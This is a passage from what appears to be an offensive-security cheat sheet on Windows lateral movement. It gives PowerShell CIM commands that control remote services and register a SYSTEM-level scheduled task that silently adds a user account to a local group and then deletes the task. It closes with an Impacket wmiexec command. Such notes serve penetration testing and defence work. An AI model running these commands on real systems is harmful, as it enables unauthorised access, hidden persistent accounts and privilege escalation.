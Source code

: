 ```powershell

Invoke-CimMethod -InputObject $Service -MethodName StartService

# Stop the service

Invoke-CimMethod -InputObject $Service -MethodName StopService

# Delete service

Invoke-CimMethod -InputObject $Service -MethodName Delete
```

#### 2.2.3 - Schedule Tasks

```powershell
PS C:\> $username = '<username>'
$password = '<password>'
$securePassword = ConvertTo-SecureString $password -AsPlainText -Force
$credential = New-Object System.Management.Automation.PSCredential $username, $securePassword

$Opt = New-CimSessionOption -Protocol DCOM

$Session = New-CimSession -ComputerName <IP> -Credential $credential -SessionOption $Opt -ErrorAction Stop

$Command = "cmd.exe"

$Args = "/c net user <username> <password> /add & net localgroup `"<local_group>`" <username> /add /y"

# Create new schedule task

$Action = New-ScheduleTaskAction -CimSession $Session -Execute $Command $Argument $Args

Register-ScheduleTask -CimSession $Session -Action $Action -User "NT AUTHORITY\SYSTEM" -TaskName "<schedule_taskname>"

# Execute schedule task

Start-ScheduleTask -CimSession $Session -TaskName "<schedule_taskname>"

# Delete schedule task

Unregister-ScheduleTask -CimSession $Session -TaskName "<schedule_taskname>"
```

## 03 - Impacket

- Authenticate via impacket script with WMIExec

`$ wmiexec <username>:<password>@<IP>`
